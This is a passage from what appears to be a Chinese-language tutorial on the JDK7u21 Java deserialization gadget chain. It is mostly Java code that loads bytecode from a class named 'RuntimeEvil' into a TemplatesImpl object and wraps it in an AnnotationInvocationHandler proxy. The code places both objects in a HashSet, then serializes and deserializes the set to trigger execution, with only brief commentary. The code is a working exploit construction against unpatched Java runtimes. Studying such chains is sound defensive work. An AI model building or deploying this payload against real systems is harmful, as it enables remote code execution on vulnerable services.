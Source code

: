 ```java
        Annovar2map.put("f5a5a608",templatesClass);
        HashMap map = new HashMap();
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, Annovar2map);
        Field typeField = annotationInvocationHandler.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        typeField.set(annotationInvocationHandler, Templates.class);
        Map annoProxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},annotationInvocationHandler);
        map.put(templatesClass,null);
        map.put(annoProxy,null);
    }
}
```

## 链接到readObject

### HashSet版

HashSet.readObject调用了put

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240914201209303.png)

但是由于HashSet在add的时候就会调用put，就会类似URLDNS在反序列化之前就触发，影响判断

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240914195459462.png)

所以先把annoProxy的构造函数传入的两个值任选一个先修改

```java
public class JDK7u21 {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\codecollect\\RMIServer\\RMIServer\\target\\classes\\org\\example\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        HashMap Annovar2map = new HashMap();
        Annovar2map.put("f5a5a608",templatesClass);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, Annovar2map);
        Field typeField = annotationInvocationHandler.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        Map annoProxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},annotationInvocationHandler);
        HashSet annoset = new HashSet(2);
        annoset.add(templatesClass);
        annoset.add(annoProxy);
        typeField.set(annotationInvocationHandler, Templates.class);
        serialize(annoset);
        unserialize("ser.bin");
    }
```